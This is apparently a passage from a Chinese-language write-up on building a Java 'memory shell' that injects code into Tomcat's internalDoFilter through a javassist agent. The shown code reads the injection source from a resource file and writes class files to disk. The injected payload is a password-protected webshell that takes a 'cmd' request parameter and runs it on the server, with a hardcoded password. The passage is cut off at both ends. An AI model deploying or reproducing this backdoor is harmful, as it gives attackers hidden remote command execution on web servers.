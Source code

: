 ```java
        }
        return  null;
    }

    /**
     * get the code ready for inject internalDoFilter
     * @return ready code
     */
    private String readSource() {
        StringBuilder source=new StringBuilder();
        InputStream is = Transformerthings.class.getClassLoader().getResourceAsStream("source.txt");
        InputStreamReader isr = new InputStreamReader(is);
        String line=null;
        try {
            BufferedReader br = new BufferedReader(isr);
            while((line=br.readLine()) != null) {
                source.append(line);
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
        return source.toString();
    }

    /**
     * output file for check
     * @param bytes
     * @param filename
     */
    private void bytestoclass(byte [] bytes,String filename) {
        try{
            File file = new File(".\\tmp");
            if (!file.exists())
                file.mkdir();
            FileOutputStream fos = new FileOutputStream(filename);
            fos.write(bytes);
            fos.flush();
            fos.close();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

cmd code（上面的 source.txt）:

```txt
    javax.servlet.http.HttpServletRequest request=$1; // reference for javassist
   javax.servlet.http.HttpServletResponse response = $2;
   String pwd=request.getParameter("passwod");
   String cmd=request.getParameter("cmd");
   String result="";
try {
            System.out.println("shell connectting");

         if (pwd!=null&&pwd.equals("ga0weI"))
         {
            if (cmd==null||cmd.equals(""))
            {
               result=priv.ga0weI.baseonagent.Shell.help();
            }
            else
```
